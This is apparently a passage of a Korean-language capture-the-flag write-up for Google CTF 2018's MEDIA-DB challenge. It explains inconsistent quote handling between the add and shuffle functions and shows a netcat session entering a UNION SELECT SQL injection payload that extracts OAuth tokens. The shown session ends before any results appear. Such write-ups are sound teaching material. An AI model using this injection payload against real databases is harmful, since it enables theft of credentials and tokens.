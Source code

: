 >
> CTF{c0d3ExEc?W411_pL4y3d}
>
> $  

## MEDIA-DB

> MEDIA-DB
>
> WebPluxMediaPC
>
> misc
>
> The gatekeeper software gave you access to a custom database to organize a music playlist. It looks like it might also be connected to the smart fridge to play custom door alarms. Maybe we can grab an oauth token that gets us closer to cake. 
>
> $ nc media-db.ctfcompetition.com 1337

py 파일 받아보면 랜덤으로 섞어주는부분에 취약점이 있다. add 할 때에는 `"`를 필터링 해 주는데, 섞어줄때는 쿼우트를 `'`로 사용해서 인젝션이 가능하다.

그런데 이걸 어떻게 넘겨줘야하나.. 고민을 했다. 특히 SQL 인젝션 관련해서 최근에 공부를 안해서... 근데 쿼리 두개를 어떻게 넘겨줄까 검색하다가 `UNION SELECT` 이 눈에 띄여서 이걸 활용해보기로 했다.

> root@ubuntu:~/CTF/Google2018# nc media-db.ctfcompetition.com 1337
>
> === Media DB ===
>
> 1) add song
>
> 2) play artist
>
> 3) play song
>
> 4) shuffle artist
>
> 5) exit
>
> \> 1
>
> artist name?
>
> 1' UNION SELECT oauth_token, oauth_token FROM oauth_tokens WHERE oauth_token Like '%
>
> song name?
>
> givemeflag
>
> 1) add song
>
> 2) play artist
>
> 3) play song
>
> 4) shuffle artist
>
> 5) exit
>
> \> 4
>
> choosing songs from random artist: 1' UNION SELECT oauth_token, oauth_token FROM oauth_tokens WHERE oauth_token Like '%
>
> == new playlist ==
>